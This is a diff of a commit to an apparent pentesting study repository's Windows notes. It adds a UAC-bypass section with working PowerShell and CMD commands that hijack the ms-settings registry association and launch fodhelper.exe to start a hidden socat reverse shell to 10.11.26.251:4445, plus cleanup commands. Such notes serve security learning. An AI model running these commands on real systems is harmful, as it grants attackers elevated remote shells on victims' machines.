

Before and after one commit to Bruno-Macedo/hacklab, a Markdown page: 2_Windows.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/2_Windows.md
+++ b/2_Windows.md
@@ -13,6 +13,10 @@
     - [Enumeration](#enumeration)
 - [SMB](#smb)
 - [RDP](#rdp)
+- [Bypass User Account Control (UAC)](#bypass-user-account-control-uac)
+  - [GUI bypass](#gui-bypass)
+  - [Auto Elevating](#auto-elevating)
+  - [Enviroment Variable](#enviroment-variable)
 - [Bypass Applocker](#bypass-applocker)
 
 # Internal
@@ -390,3 +442,33 @@
+- Variations use other registry keys
+```
+# Powershell
+$program = "powershell -windowstyle hidden C:\tools\socat\socat.exe TCP:10.11.26.251:4445 EXEC:cmd.exe,pipes"
+
+New-Item "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Force
+
+Set-ItemProperty "HKCU:\Software\Classes\.pwn\Shell\Open\command" -Name "(default)" -Value $program -Force
+
+New-Item -Path "HKCU:\Software\Classes\ms-settings\CurVer" -Force
+
+Set-ItemProperty  "HKCU:\Software\Classes\ms-settings\CurVer" -Name "(default)" -value ".pwn" -Force
+
+Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
+
+# CMD
+set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.11.26.251:4445 EXEC:cmd.exe,pipes"
+
+reg add "HKCU\Software\Classes\.thm\Shell\Open\command" /d %CMD% /f
+
+reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".thm" /f
+
+# Clean Steps:
+reg delete "HKCU\Software\Classes\.thm\" /f
+reg delete "HKCU\Software\Classes\ms-settings\" /f
+
+```
+
+## Enviroment Variable
+
 
 # Bypass Applocker
 - Applocker: restrict programs from being executed
````
Also changed, not shown: other parts of 2_Windows.md (+50 -2 lines), 0_theory.md (+6 -1 lines).
